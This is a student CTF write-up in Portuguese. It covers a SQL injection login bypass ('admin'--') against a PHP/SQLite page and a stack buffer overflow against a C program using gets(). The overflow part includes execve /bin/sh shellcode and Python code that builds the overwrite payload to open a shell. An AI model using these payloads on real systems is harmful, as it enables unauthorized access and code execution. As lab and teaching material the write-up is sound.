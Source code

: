 # CTF 4

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 5003. <br>
Verificamos que a base de dados usada é SQLite3 e quando o username é 'admin' o conteúdo do ficheiro `flag.txt` é mostrado na página web. Na parte do login a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```php
$username = $_POST['username'];
$password = $_POST['password'];             
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Ao usarmos o input "admin'--" através de SQL Injection garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT username FROM user WHERE username = 'admin'-- AND password = $password
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{ac3aa6c08d2bd43bc74361ad039139fd}`.

![CTF 4 1](../img/ctf4task1.png)

## Segunda parte

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado nem existem proteções do endereço de retorno usando canários. 

![CTF 4 2 a](../img/ctf4task2a.png)

Também tivemos acesso ao código fonte que está a ser executados no servidor na porta 4001:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

A função `gets` é insegura pois copia para `buffer` todo o input de stdin até atingir um `\0`. Assim, uma vez que a stack tem permissões de execução e os seus endereços não estão randomizados, é possível fazer um buffer overflow para controlar o endereço de retorno da função main.

Para construir o exploit usamos a linguagem Python e o mesmo shell code de CTFs anteriores que permitia lançar uma bash no terminal. Além disso, foi útil utilizar uma expressão regular para extrair o valor do endereço de buffer.

```python
ADDRESS_REGEX = "0x(.+).\n"
SHELL_CODE = (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
  "\x0b\xcd\x80" 
).encode('latin-1')
```

O input terá exatamente 112 bytes:

- Os primeiros 23 bytes contêm o shell code;
- Os últimos 4 bytes contêm o endereço de retorno malicioso, que irá corresponder ao endereço do início do buffer;
- Os restantes bytes intermédios terão NOP (*no operation*). 

```python
content = ctf_server.recvuntil(b'input:').decode()
buffer_address = bytearray.fromhex(re.search(ADDRESS_REGEX, content).group(1))
buffer_address.reverse()

exploit = bytearray(NOP for _ in range(BUFFER_SIZE)) 
exploit[: len(SHELL_CODE)] = SHELL_CODE
exploit[BUFFER_SIZE - len(buffer_address):] = buffer_address
```

Isto irá reescrever o endereço de retorno da função main, que apontará agora para o shell code. Note-se que este processo também reescreve o frame pointer de main, que está na stack entre o endereço de retorno e o buffer. No entanto, como main não chega a retornar, a manutenção do valor original torna-se irrelevante.

Tal como esperado, ao executar o código (disponível [aqui](../CTF/Exploits/ExploitCTF2S8.py)), conseguimos abrir uma bash no servidor:

![CTF 4 2 b](../img/ctf4task2b.png)

Conseguimos assim ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{a4421b76e3dfc304875754a99497e1f1}`.